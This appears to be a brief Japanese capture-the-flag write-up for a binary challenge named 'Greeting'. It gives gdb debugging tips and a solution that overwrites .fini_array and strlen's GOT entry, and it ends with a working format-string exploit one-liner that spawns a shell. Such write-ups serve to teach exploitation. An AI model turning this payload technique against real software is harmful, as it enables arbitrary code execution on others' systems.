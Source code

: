# Greeting

## ポイント
- gdbで`run`するとすぐに止まる
  →デバッガは、今動いているプロセスを追うので、子プロセスを作成されると止まってしまう。
  こういう場合は、`set follow-fork-mode parent`というコマンドで対応できる。
- 書き換えるべき関数がprintfの後に呼ばれていない！
  →デストラクタを書き換えればよい。
  ` readelf -S greeting` で`.fini_array` を見る。
- socatでリモート環境を再現しようとしてもうまくいかない
  →しゃーなし、ローカルでechoする



## 解答

`.fini_array` -> `main`

`strlen` -> `system` 



```
echo -e 'aa\x56\x9a\x04\x08\x54\x9a\x04\x08\x34\x99\x04\x08%2020x%12$hn%31884x%13$hn%349x%14$hn\nsh\nls' | ./greeting
```

